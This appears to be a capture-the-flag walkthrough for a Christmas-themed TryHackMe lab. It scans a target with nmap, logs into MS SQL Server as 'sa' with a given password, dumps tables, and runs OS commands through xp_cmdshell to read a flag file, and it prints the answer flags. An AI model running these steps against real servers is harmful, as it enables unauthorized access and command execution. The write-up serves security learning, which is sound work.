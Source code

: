 # `[Networking]` Where Are the Reindeers?

## Story
>McDatabaseAdmin came rushing into the room and cried to McSkidy, “We’ve been locked out of the reindeer schedule - how will Santa’s transportation work for Christmas?” The grinch has locked McDatabaseAdmin of his system. You need to probe the external surface of the server to see if you get him his access back.

Decided to use the AttackBox for this one as I was on Windows at the time.

### There is an open port related to MS SQL Server accessible over the network. What is the port number? `****`

```
# nmap -sT 10.10.84.3 -Pn
Starting Nmap 7.60 ( https://nmap.org ) at 2021-12-11 21:12 GMT
Nmap scan report for ip-10-10-84-3.eu-west-1.compute.internal (10.10.84.3)
Host is up (0.00082s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
135/tcp  open  msrpc
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
```

Answer: `1433`

>Let’s try to run, `sqsh -S 10.10.84.3 -U sa -P t7uLKzddQzVjVFJp`

### If the connection is successful, you will get a prompt. What is the prompt that you have received? `**`

Answer: `1>`

>McDatabaseAdmin told us the database name is `reindeer` and it has three tables:
>
>`names`
>`presents`
>`schedule`
>To display the table `names`, you could use the following syntax, `SELECT * FROM table_name WHERE condition`.
>
>`SELECT *` is used to return specific columns (attributes). * refers to all the columns.
>`FROM table_name` to specify the table you want to read from.
>`WHERE condition` to specify the rows (entities).
>In the terminal below, we executed the query, `SELECT * FROM reindeer.dbo.names;`. This SQL query should dump all the contents of the table `names` from the database `reindeer`. Note that the `;` indicates the end of the SQL query, while `go` sends a SQL batch to the database.

```
# sqsh -S 10.10.84.3 -U sa -P "t7uLKzddQzVjVFJp"
1> SELECT * FROM reindeer.dbo.names;
2> go
 id          first                                    last                                     nickname
 ----------- ---------------------------------------- ---------------------------------------- ----------------------------------------
           1 Dasher                                   Dasher                                   Dasher                                  
           2 Dancer                                   Dancer                                   Dancer                                  
           3 Prancer                                  Prancer                                  Prancer                                 
           4 Vixen                                    Vixen                                    Vixen                                   
           5 Comet                                    Comet                                    Comet                                   
           6 Cupid                                    Cupid                                    Cupid                                   
           7 Donner                                   Donder                                   Dunder                                  
           8 Blitzen                                  Blixem                                   Blitzen                                 
           9 Rudolph                                  Reindeer                                 Red Nosed

 (9 rows affected)
```

### We can see four columns in the table displayed above: id, first (name), last (name), and nickname. What is the first name of the reindeer of id 9? `*******`

Answer: `Rudolph`

### Check the table schedule. What is the destination of the trip scheduled on December 7? `******`

```
1> SELECT * FROM reindeer.dbo.schedule;
2> go
```

Answer: `Prague`

### Check the table presents. What is the quantity available for the present “Power Bank”? `*****`

```
1> SELECT * FROM reindeer.dbo.presents;
2> go
```
Answer: `25000`

>Some MS SQL Servers have `xp_cmdshell` enabled. If this is the case, we might have access to something similar to a command prompt.
>
>The command syntax is `xp_cmdshell 'COMMAND';`. Let’s try a simple command, `whoami`, which shows the user running the commands. In the terminal output below, after connecting to MS SQL Server, we tried `xp_cmdshell 'whoami';`, and we can see that the user is `nt service\mssqlserver`.

### There is a flag hidden in the grinch user's home directory. What are its contents? `***{****************}`

```
1> xp_cmdshell 'dir C:\Users\grinch';
2> go

	output 
---                                                                                                                   

	 Volume in drive C has no label.                                                                                          

	 Volume Serial Number is A8A4-C362                                                                                        

	 Directory of C:\Users\grinch   
                                                                                                                                                                          
	11/10/2021  02:22 AM    <DIR>          .                                                                                  
	11/10/2021  02:22 AM    <DIR>          ..                                                                                 
	11/10/2021  02:22 AM    <DIR>          3D Objects                                                                         
	11/10/2021  02:22 AM    <DIR>          Contacts                                                                           
	11/10/2021  02:22 AM    <DIR>          Desktop                                                                            
	11/10/2021  02:29 AM    <DIR>          Documents                                                                          
	11/10/2021  02:22 AM    <DIR>          Downloads                                                                          
	11/10/2021  02:22 AM    <DIR>          Favorites                                                                          
	11/10/2021  02:22 AM    <DIR>          Links                                                                              
	11/10/2021  02:22 AM    <DIR>          Music                                                                              
	11/10/2021  02:22 AM    <DIR>          Pictures                                                                           
	11/10/2021  02:22 AM    <DIR>          Saved Games                                                                        
	11/10/2021  02:22 AM    <DIR>          Searches                                                                           
	11/10/2021  02:22 AM    <DIR>          Videos                                                                             
	               0 File(s)              0 bytes                                                                             
	              14 Dir(s)   4,934,955,008 bytes free                                                                        
	NULL                                                                                                                      

(22 rows affected, return status = 0)
--------------------------------------------------------------------------------
1> xp_cmdshell 'dir C:\Users\grinch\Desktop';
2> go
	output                                                                                                                    
---
	 Volume in drive C has no label.                                                                                          

	 Volume Serial Number is A8A4-C362                                                                                        

	 Directory of C:\Users\grinch\Desktop                                                                                     

	11/10/2021  02:22 AM    <DIR>          .
	11/10/2021  02:22 AM    <DIR>          ..
	06/21/2016  03:36 PM               527 EC2 Feedback.website
	06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
	               2 File(s)          1,081 bytes
	               2 Dir(s)   4,934,930,432 bytes free
	NULL                                                                                                                      

(12 rows affected, return status = 0)
--------------------------------------------------------------------------------
1> xp_cmdshell 'dir C:\Users\grinch\Documents';
2> go

	output                                                                                                                    
---
	 Volume in drive C has no label.                                                                                          

	 Volume Serial Number is A8A4-C362                                                                                        

	 Directory of C:\Users\grinch\Documents                                                                                   

	11/10/2021  02:29 AM    <DIR>          .                                                                                  
    11/10/2021  02:29 AM    <DIR>          ..                                                                                 
    11/10/2021  02:28 AM                21 flag.txt                                                                           
                   1 File(s)             21 bytes                                                                             
                   2 Dir(s)   5,129,494,528 bytes free                                                                                                                          

(11 rows affected, return status = 0)
--------------------------------------------------------------------------------
1> xp_cmdshell 'type C:\Users\grinch\Documents\flag.txt';
2> go

	output                                                                                                                    
---

	THM{YjtKeUy2qT3v5dDH}

(1 row affected, return status = 0)

```

Answer: `THM{YjtKeUy2qT3v5dDH}`
